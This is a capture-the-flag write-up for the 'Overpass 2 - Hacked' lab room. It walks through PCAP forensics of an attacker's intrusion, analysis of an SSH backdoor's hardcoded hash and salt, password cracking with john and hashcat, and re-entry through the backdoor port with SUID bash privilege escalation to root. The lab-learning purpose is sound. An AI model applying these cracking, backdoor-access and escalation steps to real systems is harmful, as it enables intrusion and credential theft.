

# Overpass 2 - Hacked

Compared to Overpass, I found this sequel to be a bit more difficult but I'd still agree that this is a beginner level room. The initial foothold is based on `Packet Analysis`. From there we would move to some code analysis and then privilege escalation. 

So, without further ado let's begin!

### [Task 1] Forensics - Analyse the PCAP                                

For this task, we are provided a PCAP file which we can open using wireshark and analyse the traffic. There are more than 3.8K packets that we can see have been transferred. 

We can analyse these packets by going to the oldest packet first (which is the first packet itself) and then analysing the flow.

1. What was the URL of the page they used to upload a reverse shell?

From the flow data, we can see that a GET request for a specific URL was made immediately after the 3-way handshake that can be observed in the first 3 packet transmissions. Later, we can see a POST request was made on the same URL by sending a file named `upload.php`. The answer to the first question is the same directory. (Hint: /dXXXXXXXXXt)

2. ##### What payload did the attacker use to gain access?

We can see that the attacker uploaded a `.php` file, which suggests that using this file he might have tried to gain a remote shell from the target machine. On analysing the packet for the POST request through which the file was uploaded, we can find the payload that was used by the attacker to gain access.



To copy this we can right-click on the payload part and select as printable text. Once formatted properly, we can submit it as the answer to the second question.

3. ##### What password did the attacker use to privesc?

From the data in subsequent packets, we can figure out that the attacker got into the machine as `www-data`. On analysing further packets we can find a packet that contains the command `su james`, which means the attacker was trying escalate his privileges to user james level. And a few packets after that (in packet number 76), we can find the password for user james. This is the password that the attacker used for privesc and can be submitted as the answer to the third question.

4. ##### How did the attacker establish persistence?

In packet number 120, we can see that the attacker cloned a github repository. We can go and check out that repository to see what it exactly does. And it turns out to be an SSH backdoor. This confirms that the user used this repo to get a backdoor SSH access to the machine. Hence, we can submit the URL of this repo as the answer to the fourth question.

5. ##### Using the fasttrack wordlist, how many of the system passwords were crackable?

While going through various packet, we can see that at one point (packet 114) the attacker viewd the `/etc/shadow` file. We can use `john` along with the fasttrack wordlist to try to crack passwords in that `/etc/shadow` file.

Before running `john`, remove any garbage values from the copied content.

```
tester@kali:~/Downloads/overpass 2$ john shadow -wordlist=/usr/share/wordlists/fasttrack.txt
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxxxx         (bee)
xxxxxxx          (szymex)
xxxxxxxx         (muirland)
xxxxxxxxx        (paradox)
4g 0:00:00:00 DONE (2020-08-30 20:06) 10.00g/s 555.0p/s 2775c/s 2775C/s Spring2017..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now, we know the number of system passwords that were crackable and we can submit this number as the answer to the fifth question.

### [Task 2] Research - Analyse the code                                

1. ##### What's the default hash for the backdoor?

We have the SSH backdoor code in the GitHub repository which we can analyse to look for further details. On going through the code in `main.go` file, we can find a stored hash value named as `default hash`. This value can be submitted as the answer to the first question.

2. ##### What's the hardcoded salt for the backdoor?

In the code we can see that there is a function named `verifyPass`, which takes three arguements which are hash, salt and password string. At the end of the code we can see a line where the `verifyPass` function is called and all the three arguements are also passed. We can find the hardcoded salt value in those arguements itself and submit it as the answer to the second question.

3. ##### What was the hash that the attacker used? - go back to the PCAP for this!

We can see packets to and from port 4242 after the GitHub repo was cloned on the system which is usually used for remote sessions. Using this information, we can filter and view only the packets for port 4242 using the search filter `tcp.port == 4242` and then analyse that traffic. 

It can be seen that the attacker created an SSH key using `ssh-keygen` and also made the `backdoor` file executable. After that in packet 3479 we can see that a value was passed as arguement while calling the `\backdoor` file. This passed value is the hash that is required for the answer to the third question.

4. ##### Crack the hash using rockyou and a cracking tool of your choice. What's the password?

To crack the hash, the first thing that we need to do is determine the type of hashing algorithm that has been used. This can be done using `hash-identifier` tool.

```
tester@kali:~/Downloads/overpass 2$ hash-identifier 
--------------------------------------------------
 HASH: 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

Possible Hashs:
[+] SHA-512
[+] Whirlpool

Least Possible Hashs:
[+] SHA-512(HMAC)
[+] Whirlpool(HMAC)
```

We can use `hashcat` to crack the hash. But for that we need to find the mode value that needs to be used which can be found [here](https://hashcat.net/wiki/doku.php?id=example_hashes). We can see that the code for SHA-512 is 1700 which we can use to crack the hash but apparaently this does not work. Now, if we recall then in the SSH backdoor code, there was a hardcoded salt involved. We need to add this salt value to the hash as:

```
<hash_value>:<salt>
```

Once, this new hash value is saved we can again run hashcat but this time with mode 1710 which is used for salted hashes.

```
tester@kali:~/Downloads/overpass 2$ hashcat -m 1710 hash /usr/share/wordlists/rockyou.txt 
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:XXXXXXXXXX
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512($pass.$salt)
Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
Time.Started.....: Sun Aug 30 21:05:42 2020 (0 secs)
Time.Estimated...: Sun Aug 30 21:05:42 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   420.2 kH/s (2.27ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 18432/14344385 (0.13%)
Rejected.........: 0/18432 (0.00%)
Restore.Point....: 16384/14344385 (0.11%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: christal -> tanika

Started: Sun Aug 30 21:05:37 2020
Stopped: Sun Aug 30 21:05:43 2020
```

This password can be submitted it as the answer to the fourth question.

### [Task 3] Attack - Get back in!                                

1. ##### The attacker defaced the website. What message did they leave as a heading?

First, we need to deploy the machine in order to access the web page. The heading of the web page needs to be submitted as the answer to the first question.

2. ##### Using the information you've found previously, hack your way back in!

We can run a nmap scan in order to see all the open ports on the machine. 

```
Nmap done: 1 IP address (1 host up) scanned in 2.97 seconds
tester@kali:~/Downloads/overpass 2$ nmap -A -T4 -p-10000 10.10.140.216
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-30 21:30 IST
Warning: 10.10.140.216 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.140.216
Host is up (0.17s latency).
Not shown: 9650 closed ports, 347 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:3a:be:ed:ff:a7:02:d2:6a:d6:d0:bb:7f:38:5e:cb (RSA)
|   256 fc:6f:22:c2:13:4f:9c:62:4f:90:c9:3a:7e:77:d6:d4 (ECDSA)
|_  256 15:fd:40:0a:65:59:a9:b5:0e:57:1b:23:0a:96:63:05 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LOL Hacked
2222/tcp open  ssh     OpenSSH 8.2p1 Debian 4 (protocol 2.0)
| ssh-hostkey: 
|_  2048 a2:a6:d2:18:79:e3:b0:20:a2:4f:aa:b6:ac:2e:6b:f2 (RSA)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 596.39 seconds
```

Here, we can see that SSH is enabled on port 2222. So, we can login using the obtained credentials from this port via SSH. We know that the attacker stored the SSH key in user 'james' `.ssh` folder. Hence, we will use the username 'james' and the password that we obtained in the fourth question in last task to login.

```
tester@kali:~$ ssh james@10.10.140.216 -p 2222
The authenticity of host '[10.10.140.216]:2222 ([10.10.140.216]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.140.216]:2222' (RSA) to the list of known hosts.
james@10.10.140.216's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ 
```

Now that we have the access to the machine we can start looking for the flags.

3. ##### What's the user flag?

The user flag can be found at it's usual place in the user's directory.

```
james@overpass-production:/home/james/ssh-backdoor$ cd ..
james@overpass-production:/home/james$ ls
ssh-backdoor  user.txt  www
james@overpass-production:/home/james$ cat user.txt 
```

4. ##### What's the root flag?

In user james directory we can see a file named `.suid_bash` that is owned by root. We can to [GTFOBins](https://gtfobins.github.io/gtfobins/bash/) and look for bash with SUID. There we can see that with SUID bit set we can run `bash` as root using the flag `-p`.

```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# cat /root/root.txt
```

And we get the root flag!

## Some Key Points to Take Away

1. Try to determine the flow of connection when analysing packet data.
2. If you find traffic for specific odd ports, filter traffic for those specific ports.
3. Try to look for hardcoded values, comments or other hints when you have a code.